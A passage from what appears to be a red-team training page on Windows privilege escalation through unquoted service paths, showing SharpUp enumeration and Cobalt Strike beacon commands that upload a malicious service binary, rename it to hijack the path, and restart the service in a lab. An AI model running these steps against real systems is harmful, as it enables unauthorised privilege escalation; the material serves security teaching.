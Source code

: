 ### Using SharpUp

We can also rely on [SharpUp](https://github.com/GhostPack/SharpUp) to <mark style="color:$warning;">**list any services that match these conditions**</mark>.

{% code fullWidth="true" %}
```
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath

=== SharpUp: Running Privilege Escalation Checks ===

=== Services with Unquoted Paths ===
	Service 'VulnService1' (StartMode: Automatic) has executable 'C:\Program Files\Vulnerable Services\Service 1.exe', but 'C:\Program Files\Vulnerable Services\Service' is modifable.
```
{% endcode %}

### Abusing Services

Payloads used to abuse services _**must be**_ "<mark style="color:$danger;">**service binaries**</mark>", because they need to be capable of interacting with the _**Service Control Manager**_.

{% hint style="info" %}
It is recommended to make use of the `TCP` Beacons that are bound to `localhost` only for privilege escalations.
{% endhint %}

#### Uploading a Malicious Service Binary to a Victim via Beacon

```
beacon> cd C:\Program Files\Vulnerable Services
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 5kb      fil     02/23/2021 15:04:13   Service 3.exe

beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe Service.exe
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 5kb      fil     02/23/2021 15:04:13   Service 3.exe
 290kb    fil     03/03/2021 11:11:27   Service.exe

beacon> run sc stop VulnService1

SERVICE_NAME: VulnService1 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

beacon> run sc start VulnService1

SERVICE_NAME: VulnService1 
```
